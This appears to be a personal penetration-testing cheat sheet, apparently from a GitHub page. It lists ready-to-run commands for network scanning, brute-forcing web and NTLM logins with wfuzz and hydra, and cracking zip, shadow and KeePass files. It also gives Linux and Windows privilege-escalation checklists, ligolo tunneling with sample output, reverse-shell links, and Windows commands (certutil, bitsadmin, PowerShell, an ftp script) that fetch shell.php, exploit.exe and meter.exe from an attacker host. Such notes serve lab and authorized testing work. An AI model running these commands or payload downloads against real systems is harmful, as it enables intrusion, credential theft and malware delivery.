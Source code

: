 **NMAP**
  nmap sweep scan 
  - nmap -sP 10.10.155.1-225
  Most used nmap scan
  - nmap -p- -A -T4 -sV 10.10.155.5

  THREADER3000
cp ~/Files/Tools/threader3000/threader3000.py .

**Nikto**

**Weak Credentials**
HTTP Brute Force

wfuzz POST
wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php

hydra POST
hydra 192.168.30.161 -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20

wfuzz NTLM
wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api

wfuzz Basic Auth through Proxy
wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/Activos/names.txt -z file,/root/Documents/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https://<ip>/api/v1/

**Password Cracking**

zip
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip 

/etc/shadow
unshadow passwd shadow > passwords
john --wordlist=/usr/share/wordlists/rockyou.txt passwords

keepass
keepass2john /root/Desktop/NewDatabase.kdb > file
john -incremental:alpha -format=keepass file

**Linux Privilege Escalation**
sudo -l
uname -a
Run Linpeas
Run pspy64
sudo -V
run lse.sh
Kernel Exploits
OS Exploits
Password reuse (mysql, .bash_history, 000-default.conf...)
Known binaries with suid flag and interactive (nmap)
Custom binaries with suid flag either using other binaries or with command execution
Writable files owned by root that get executed (cronjobs)
MySQL as root
Vulnerable services (chkrootkit, logrotate)
Writable /etc/passwd
Readable .bash_history
SSH private key
Listening ports on localhost
/etc/fstab
/etc/exports
/var/mail
Process as other user (root) executing something you have permissions to modify
SSH public key + Predictable PRNG
apt update hooking (Pre-Invoke)
Capabilities

**Windows Privilege Escalation**
Kernel Exploits
OS Exploits
Pass The Hash
Password reuse
DLL hijacking (Path)
Vulnerable services
Writable services binaries path
Unquoted services
Listening ports on localhost
Registry keys

**Tunneling & Port Forwarding**

**ligolo - https://github.com/nicocha30/ligolo-ng**
### Access to agent's local ports (127.0.0.1) https://github.com/nicocha30/ligolo-ng?tab=readme-ov-file#access-to-agents-local-ports-127001


 ./proxy -selfcert
 
sudo ip route add 172.16.1.0/24 dev ligolo

./agent -connect <ip>:11601 -ignore-cert

root@DANTE-WEB-NIX01:~# ./agent -connect 10.10.14.4:11601 -ignore-cert
WARN[0000] warning, certificate validation disabled

INFO[0000] Connection established   addr="10.10.14.4:11601"


**Reverse Shells**
https://www.revshells.com/
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

**Upgrade Shell**
python -c 'import pty;pty.spawn("/bin/bash")’

**HTTP Server**


**Windows File Transfer**

python3 -m http.server 

wget.exe http://<ip>/file -o file

certutil -urlcache -split -f  https://<ip>/file.txt -o file.txt

bitsadmin /transfer debjob /download /priority normal http://<ip>/shell.php c:\xampp\htdocs\shell.php

cscript wget.vbs http://<ip>/test.txt test.txt

powershell -c "(new-object System.Net.WebClient).Downloadfile('http://<ip>/exploit.exe', 'C:\Windows\temp\exploit.txt')"

ftp

client:

echo open [ip] [port] > ftpscript.txt
echo anonymous>> ftpscript.txt
echo PASS >> ftpscript.txt
echo bin >> ftpscript.txt
echo get meter.exe>> ftpscript.txt
echo quit >> ftpscript.txt
ftp -s:ftpscript.txt
server:

python -m pyftpdlib  --port=2121 --write
